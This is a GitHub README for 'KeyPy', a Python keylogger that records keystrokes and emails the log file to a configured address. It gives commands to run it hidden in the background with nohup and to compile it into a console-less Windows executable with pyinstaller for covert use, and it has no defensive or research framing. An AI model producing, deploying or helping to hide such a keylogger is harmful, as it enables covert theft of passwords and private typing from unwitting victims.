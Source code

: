 # KeyPy | Keylogger on Python
Keylogger written in python with sending log file to mail
## Launching App
> First, you need to change the variables 
> in the config.py file, and then
### Run secretly
```
COUNT=number_of_characters EMAIL=email nohup python3 keypy.py
```
### Compile to exe file
```
pyinstaller --onefile --noconsole keypy.py
```
### Simple start
```
COUNT=number_of_characters EMAIL=email python3 keypy.py
```
## Description
This is a simple keylogger in python with sending logs to your e-mail
## Copyright
© Copyright by. Hellen

